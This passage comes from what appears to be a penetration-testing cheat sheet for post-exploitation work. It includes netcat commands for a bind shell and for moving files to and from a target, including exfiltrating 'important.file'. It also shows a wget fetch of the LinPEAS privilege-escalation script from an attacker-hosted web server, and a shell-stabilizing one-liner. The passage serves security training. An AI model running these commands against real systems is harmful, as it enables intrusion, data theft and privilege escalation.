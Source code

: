     # Connect to a bind shell on a target
    nc 192.168.1.50 4444

    # Transfer a file TO the target (from your machine)
    nc -nvlp 4444 < linpeas.sh  # On Attacker
    nc 192.168.1.10 4444 > linpeas.sh # On Target

    # Transfer a file FROM the target
    nc -nvlp 4444 > important.file # On Attacker
    nc 192.168.1.10 4444 < important.file # On Target
    ```

#### **LinPEAS (Linux Privilege Escalation)**
*   **Purpose:** **THE most important post-exploit script.** Automatically finds privesc vectors.
*   **How to use:**
    1.  Get a basic shell on the target.
    2.  Get LinPEAS on the target. Methods:
        *   `wget http://192.168.1.10:8000/linpeas.sh` (start a Python web server on your machine: `python3 -m http.server 8000`)
        *   Use the netcat file transfer method above.
    3.  Make it executable: `chmod +x linpeas.sh`
    4.  Run it: `./linpeas.sh | tee linpeas_output.txt` (saves output)

#### **Python3 Web Server**
*   **Purpose:** Host tools/files for download onto the target machine.
*   **Critical Command:**
    ```bash
    # Host the current directory on port 8000
    python3 -m http.server 8000
    # Then on the target: wget http://YOUR_IP:8000/file.txt
    ```

---

### **5. Handy One-Liners & Tricks**

*   **Stabilize a Shell:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Then background with [CTRL+Z]
    stty raw -echo; fg
    # Then press [ENTER]. You now have a fully interactive shell.
    ```
